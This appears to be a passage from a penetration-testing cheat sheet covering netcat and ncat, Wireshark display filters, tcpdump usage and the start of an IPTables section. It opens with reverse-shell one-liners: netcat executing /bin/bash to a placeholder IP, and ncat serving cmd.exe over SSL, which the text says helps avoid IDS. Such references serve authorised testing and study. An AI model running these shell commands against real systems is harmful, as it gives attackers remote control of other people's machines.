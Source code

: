 Create a reverse shell with Ncat using bash on Linux  
>nc -nv $ip 4444 -e /bin/bash

Netcat for Banner Grabbing:

>echo "" | nc -nv -w1 IP "Address" "Ports"

### Ncat
Netcat for Nmap project which provides more security avoid IDS

Reverse shell from windows using cmd.exe using ssl  
>ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

Listen on port 4444 using ssl
>ncat -v $ip 4444 --ssl

### Wireshark
Show only SMTP (port 25) and ICMP traffic:

>tcp.port eq 25 or icmp

Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

>ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16

Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

>ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip

Some commands are equal

>ip.addr == xxx.xxx.xxx.xxx

Equals

>ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx
>
>ip.addr != xxx.xxx.xxx.xxx`
>
>ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx

### Tcpdump

Display a pcap file  
>tcpdump -r passwordz.pcap

Display ips and filter and sort  
>tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head

Grab a packet capture on port 80  
>tcpdump tcp port 80 -w output.pcap -i eth0

Check for ACK or PSH flag set in a TCP packet  
>tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap

### IPTables

Deny traffic to ports except for Local Loopback

